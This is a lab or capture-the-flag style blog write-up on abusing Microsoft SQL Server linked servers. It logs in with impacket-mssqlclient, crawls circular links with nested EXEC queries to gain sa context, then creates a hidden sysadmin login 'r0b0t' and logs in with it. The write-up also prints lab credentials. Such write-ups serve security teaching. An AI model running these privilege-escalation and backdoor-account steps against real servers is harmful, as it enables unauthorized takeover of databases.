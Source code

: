 ```yaml
---
title: Abusing MSSQL Linked Servers [Adding sa user & File Read]
author: r0b0tG4nG
date: 2021-12-16 10:18:00 +0000
categories: [Blogging, Exploiting]
tags: [writeups, mssql, impacket-mssqlclient, python , xp_cmdshell, sp_execute_external_script]
math: true
mermaid: true
---
```


![image]<br><br>


**> Information Gathering**<br>

Microsoft SQL Server is a <a href="https://en.wikipedia.org/wiki/Relational_database_management_system">relational database management system</a> developed by <a href="https://en.wikipedia.org/wiki/Microsoft">Microsoft</a>. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet).<br>

Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library. More Information can be found at <a href="https://github.com/SecureAuthCorp/impacket">
SecureAuth Corporation</a><br>

In this engagement, we will use <a href="https://github.com/SecureAuthCorp/impacket/blob/impacket_0_9_24/examples/mssqlclient.py">Impacket-mssqlclient.py</a> script. First we will login to the mssql service using the `mssql-client.py`, to do this we will parse the database credentials and ip as agruments to the `mssql-client.py` script. `impacket-mssqlclient external_user:"#p00Public3xt3rnalUs3r#"@10.13.38.11`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365268-90142593-59e6-4a33-8d10-1f6d3286ea9b.png)<br>

After logging in to the mssql database, we will haev to check if the user has sysadmin privileges on the databases. This can be done by querying the <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-syslogins-transact-sql?view=sql-server-ver15">syslogins table</a> using the command `SELECT name,sysadmin from syslogins;`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365388-6c93e881-bde7-493d-842c-d4423239c15d.png)<br>

The database has two users `sa` & `external_user`. From the output, we can see the current user doesn't have `sysadmin privileges`, which means we can't use <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15">xp_cmdshell</a> to execute OS commands. We can check this by trying to enable `xp_cmdshell`<br>
![image](https://user-images.githubusercontent.com/67085453/146365484-c895eebc-9914-4b07-8b40-5c2e1cd12635.png)<br>

Microsoft SQL servers provides the ability to link external resources such as Oracle databases and other SQL servers. This is common to find in domain environments and can be exploited in case of misconfigurations. To verify if there are any linked servers on the current database, we will have to query the <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysservers-transact-sql?view=sql-server-ver15">sysservers table</a> by executing the command `select srvname,isremote from sysservers;`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365758-f02ba0e1-f680-487e-8edd-3302e1026288.png)<br>

Quering the table displayed two entries: `POO_PUBLIC (current server)` and `POO_CONFIG`. According to the documentation, `isremote column` determines if a server is linked or not. The `value 1` stands for `remote server`, while the value `0 stands for a linked server`. From this, we can conclude that `POO_CONFIG` is a linked server.<br>

From the docs, `EXEC` statement can be used to execute queries on linked servers. The next step is to find out the user in whose context we will be able to query the linked server. To do this, we will type `EXECUTE ('select suser_name();') at [COMPATIBILITY\POO_CONFIG];`<br>
![image](https://user-images.githubusercontent.com/67085453/146365942-3a17d65c-fa93-457b-b35e-8c9486a698e5.png)<br>

The queries on the linked server `POO_CONFIG` are running as `internal_user`. To do greater damage, in this scenario, we will need the permissions of the `sa` user, so its best to check is the `internal_user` is `sa` on the targett or has `sa` privileges assigned to this user. To do this, we will execute the commmand `EXECUTE ('SELECT name,sysadmin from syslogins;') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366041-0c7e6ba7-4f7f-4d23-9751-e64b5f691fcc.png)<br>

Bad luck on our side, the user `internal_user` is also not a `sysadmin` on the target. That is not the end remember this target has linked databases so we can try to enumerate the `POO_CONFIG` server to see if it has more links. We can recon on more links using `EXECUTE ('select srvname,isremote from sysservers;') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366129-93d9a1e9-7d5a-4ad1-bdc9-c266f4e62d5e.png)<br>

From the image above, we can see that `POO_CONFIG` is in turn linked to `POO_PUBLIC`, making it a circular link. This is good news to the eyes since we can use nested queries to find out what user we're running as. Let's execute this command `EXEC ('EXEC (''select suser_name();'') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366345-e90d8172-c3a7-4b0c-850f-1a1553ccae17.png)<br>

A nested `EXEC statement` is used to find the username after crawling back from the `POO_CONFIG link`. The query returned `sa`, which means that the link allows us to execute queries as the `sysadmin user` on our current database `POO_PUBLIC`. The diagram below shows how the links are crawled in order to attain `sa privileges`. We can use these privileges to change the `sa password` on `POO_PUBLIC`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366439-f55a6706-98fe-4852-89c1-ce94c45b4d8e.png)<br>

With this information, we can add a new `sa user` to the `POO_PUBLIC` database using a nested query. We will add a new SQL user named `r0b0t` with the password `P@ssword123` . The `r0b0t` user will be granted `sysadmin level privileges`. To avoid errors, we all single quotes should be escaped with another quote.<br>

We now add the `r0b0t` user and also grant him the `sysadmin privileges`. To achieve this, we will use the following commands. <br> 
`EXECUTE('EXECUTE(''CREATE LOGIN r0b0t WITH PASSWORD = ''''P@ssword123'''' '') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG" `<br>
`EXECUTE('EXECUTE(''sp_addsrvrolemember ''''r0b0t'''' , ''''sysadmin'''' '') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG"`<br>
![image](https://user-images.githubusercontent.com/67085453/146366521-20ad5699-cced-436f-a8ba-643acd48d2b9.png)<br>

The command was executed successfully without any errors. We can login to the `mssql` database using the username `r0b0t` & password `P@ssword123`. To achieve this, we will need `impacket-mssqlclient` script with the argument `impacket-mssqlclient r0b0t:'P@ssword123'@10.13.38.11`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366926-91d93953-d63f-431f-acb4-305e1f275077.png)<br>



